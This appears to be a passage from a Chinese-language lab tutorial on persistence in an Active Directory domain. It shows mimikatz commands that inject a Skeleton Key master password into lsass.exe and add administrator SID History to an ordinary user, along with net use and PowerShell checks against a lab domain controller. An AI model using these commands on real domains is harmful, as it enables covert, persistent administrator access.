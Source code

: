 三、基于登录进程劫持（Skeleton Key技术）
1、对比：域内的某个用户与DC通讯
当与DC域控主机没有建立连接的时候，执行命令时会报拒绝访问：
dir \\owa2010cn-god\c$
备注：当我们使用收集到的凭据信息去发起连接之后，再次执行命令时，可正常执行命令。
net use \\owa2010cn-god\ipc$ "Admin12345" /user:god.org\administrator
dir \\owa2010cn-god\c$

2、此时凭借着已经取得的**DC域控**的权限，使用mimikatz工具写入万能密码
#写入万能密码：
privilege::debug

#刷新，保存
misc::skeleton

这一步是将万能密码注入"lsass.exe"的进程中：
https://upimg.baike.so.com/doc/7547686-7821779.html

3、写入万能密码之后，可以直接在其他域控主机上使用万能密码连接DC域控主机
net use \\owa2010cn-god\ipc$ "mimikatz" /user:god.org\administrator
dir \\owa2010cn-god\c$
==这种权限维持的方式有一定的缺点！因为Skeleton Key技术是被注入到==
==“lsass.exe”进程的，所以他只存在内存中，如DC域控重启，“lsass.exe”进程将会==
==重新加载，那么万能密码将失效！==

4、重启DC域控之后，重新测试域内用户和DC通讯
net use \\owa2010cn-god\ipc$ "mimikatz" /user:god.org\administrator
dir \\owa2010cn-god\c$
提示：登录失败



四、基于用户属性修改（SID history）
SID值的相关介绍： https://blog.csdn.net/m0_61643743/article/details/124437452
1、获取DC域控的权限之后，调用powershell执行命令获取内某用户的SID属性：
#powershell执行命令：
Import-Module ActiveDirectory
Get-ADUser webadmin -Properties sidhistory
#此命令在cmd可执行
wmic useraccount get sid,name 

2、mimikatz添加SID History后门
privilege::debug
sid::patch
sid::add /sam:webadmin /new:administrator #将administrator的SID添加到webadmin的SID History属性中

3、此时再次使用PowerShell查看test用户的SID History（==发现已经具备了管理员的权限==）
Import-Module activedirectory
Get-ADUser webadmin -Properties sidhistory
dir \\owa2010cn-god\c$

4、使用webadmin域用户直接连接DC域控主机
dir \\owa2010cn-god\c$
dir \\192.168.3.21\c$


关于SID值提权的相关介绍： https://www.cnblogs.com/xiaoxiaosen/p/13535868.html
